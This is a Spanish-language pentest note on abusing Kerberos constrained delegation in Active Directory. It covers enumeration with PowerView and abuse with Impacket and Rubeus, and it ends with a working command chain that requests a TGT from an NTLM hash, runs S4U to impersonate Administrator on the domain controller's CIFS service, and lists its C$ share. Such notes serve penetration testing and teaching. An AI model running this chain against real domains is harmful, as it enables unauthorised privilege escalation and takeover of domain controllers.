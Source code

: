 # Constrained Delegation

Tags: #AD #Windows 

La delegación restringida (Constrained Delegation) en Active Directory es una funcionalidad de seguridad que permite a un servicio, como un servidor o una aplicación, solicitar tickets Kerberos en representación de un usuario, pero restringiendo esta capacidad únicamente a servicios específicos previamente configurados. Esta característica se introdujo para mejorar la seguridad y brindar un mayor control sobre la delegación de credenciales entre servicios dentro de un entorno de red.

```bash 
# Tipos de Delegación Restringida:

Existen dos modos principales de delegación restringida:

1. Delegación Restringida con TGT (Trusted to Authenticate for Delegation): En este modo, el servicio no puede solicitar tickets de servicio en nombre de un usuario a menos que el usuario haya autenticado directamente al servicio que está realizando la delegación. Esto es más seguro porque requiere una autenticación inicial con el servicio que delega.
    
2. Delegación Restringida sin TGT (Kerberos Only): Aquí, el servicio puede solicitar tickets para otros servicios especificados en la lista de servicios permitidos sin que el usuario se autentique directamente con el servicio que delega.
    
3. Seguridad y Riesgos: La delegación restringida, aunque más segura que la delegación no restringida (Unconstrained Delegation), aún presenta riesgos si un atacante obtiene el control de la cuenta del servicio que puede delegar. Con este control, el atacante puede acceder a otros servicios como si fuera el usuario autenticado. Por lo tanto, es fundamental restringir el uso de la delegación a cuentas de servicios necesarias y monitorear estas cuentas de manera continua.
```

## Constrained Delegation en Cuentas de Computadora

Para las cuentas de computadora, la delegación restringida se utiliza para controlar los servicios que se ejecutan en una máquina en particular y cómo esos servicios pueden actuar en nombre de los usuarios. Por ejemplo, un servidor web que corre en una máquina específica podría necesitar acceder a otro servidor en nombre del usuario para obtener información. Configurando la delegación restringida en la cuenta de la computadora que hospeda el servidor web, controlamos a qué servicios externos puede este servidor acceder con las credenciales de un usuario.

```bash 
# Uso de Impacket

1. Identificación del Servicio Delegado: Primero, identificarías el servicio específico al que se permite la delegación. En tu salida, estos están listados bajo "msds-allowedtodelegateto". Parece que "Suspicious-PC" puede delegar a ciertos servicios HTTP en "First-DC", mientras que "USER-SERVER" puede delegar a varios servicios "HOST" y "TERMSRV".
    
2. Obtención de un Ticket de Servicio: Luego, podrías usar una herramienta como "getST.py" de Impacket para obtener un ticket de servicio (TGS) para el servicio que se permite delegar. Necesitarías tener acceso a una cuenta que tenga permisos para solicitar dicho ticket, que podría ser cualquier usuario o cuenta de servicio que se autentique con el servidor que tiene la delegación restringida configurada.
    
3. Uso del Ticket de Servicio: Una vez que tienes el TGS, puedes usar otra herramienta de Impacket, como "psexec.py" o "wmiexec.py", para usar ese ticket y autenticarte en el servicio de destino, ejecutando comandos o realizando otras acciones como si fueras el usuario cuyo ticket has obtenido.
```

```powershell
# Esta vulnerabilidad viene del resultado de ADPeas y debe de contener lo siguiente

Nota: 
	1. UserAccountControl = TRUSTED_TO_AUTH_FOR_DELEGATION
	2. sAMAccountName = Nombre del equipo para saber cual es el que de debe de comprometer 'Es quien tiene los permisos'
	3. msDS-AllowedToDelegateTo = HOST/Domain1.corp   # Equipo victima 'El dominio al cual se puede comprometer'


# Identificar el Constrained Delegation 
❯ Get-DomainComputer -TrustedToAuth | select samaccountname, samaccounttype, msds-allowedtodelegateto, serviceprincipalname



# Resultado
1. Suspicious-PC$:
    
    - 'samaccountname': El nombre de la cuenta de la máquina es Suspicious-PC$.
    - 'samaccounttype': Indica que esta cuenta es una cuenta de máquina.
    - 'msds-allowedtodelegateto': Lista los servicios a los que esta máquina puede presentar credenciales en nombre de otro usuario. En este caso, está limitado a ciertos servicios HTTP en 'First-DC.domain1.corp'.
    - 'useraccountcontrol': Indica el tipo de cuenta, que es una cuenta de confianza de estación de trabajo.
        
    
2. USER-SERVER$:
    - 'samaccountname': El nombre de la cuenta de la máquina es USER-SERVER$.
    - 'samaccounttype': Indica que esta cuenta es una cuenta de máquina.
    - 'msds-allowedtodelegateto': Lista los servicios a los que esta máquina puede presentar credenciales en nombre de otro usuario. Aquí, está limitado a ciertos servicios HOST en 'First-DC.domain1.corp'.
    - 'serviceprincipalname' (SPN): Este es un identificador único para cada instancia del servicio. Se utilizan para la autenticación Kerberos. La presencia de términos como WSMAN y TERMSRV sugiere que esta máquina está ejecutando servicios de administración remota de Windows y servicios de terminal (Remote Desktop Services), respectivamente.
    - 'useraccountcontrol': Indica el tipo de cuenta, que es una cuenta de confianza de estación de trabajo.
```

```bash 
Un atacante que ha comprometido cualquiera de estas máquinas (por ejemplo, obteniendo las credenciales adecuadas o explotando alguna vulnerabilidad) puede utilizar la característica de delegación restringida para autenticarse en el 'First-DC.domain1.corp' como cualquier usuario que haya iniciado sesión previamente en la máquina comprometida, limitado a los servicios especificados en 'msds-allowedtodelegateto'.

1. Si un atacante compromete 'Suspicious-PC$', podría delegar credenciales para autenticarse hacia servicios HTTP específicos en 'First-DC.domain1.corp'.
    
2. Si 'USER-SERVER$' es comprometido, el atacante podría utilizar esta delegación para autenticarse hacia servicios que utilizan el protocolo HOST (generalmente servicios a nivel de sistema operativo o servicios de red) en 'First-DC.domain1.corp'.
```

## Utilizando Rubeus

```powershell
❯ klist purge   # Eliminamos los tickets de servicio que se encuentran en cache

❯ ./Rubeus.exe asktgt /user:USER-SERVER /ntlm:dadef894e564c991a5a5714e0a7efc67 /domain:domain1.corp /outfile:userserver.tgt   # Solicitar un TGT

❯ .\Rubeus.exe s4u /ticket:userserver.tgt /msdsspn:"HOST/First-DC.domain1.corp" /impersonateuser:Administrator /altservice:CIFS /ptt     # Se hace un Pass-The-Ticket

❯ klist         # Mirar los tickets de servicio 

❯ dir \\First-DC.domain1.corp\c$    # Validar los recursos 
```